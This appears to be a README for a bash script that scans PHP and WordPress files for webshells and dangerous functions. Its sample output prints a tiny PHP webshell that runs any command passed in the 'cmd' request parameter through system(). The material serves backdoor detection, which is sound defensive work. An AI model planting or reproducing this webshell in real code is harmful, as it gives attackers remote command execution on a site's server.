 **Description:**

Simple script for detect possible backdoors in files PHP. (Good for the Wordpress PHP files.)


**Usage:**
```
$ ./findbackdoor.sh 

 Opção Inválida!

 Use: ./findbackdoor.sh <diretorio para o scan> <1 ou 2>
  1 = WebShells
  2 = Functions

$ ./findbackdoor.sh /home/espreto/Test/Plugin_WP/ 1

[+] Possible webshell found!
/home/espreto/Test/Plugin_WP/example/r57.php

$ ./findbackdoor.sh /home/espreto/Test/Plugins_WP/ 2

[+] Possible danger function!
/home/espreto/Test/Plugins_WP/i.php

1-<?php
2-if(isset($_REQUEST[‘cmd’])){
3-        echo "<pre>";
4-        $cmd = ($_REQUEST[‘cmd’]);
5:        system($cmd);
6-        echo "</pre>";
7-        die;
8-}
9-?>

$
```

**TODO:**

Missing some features, but it's a start. 
Please PR me. ;)


[]s

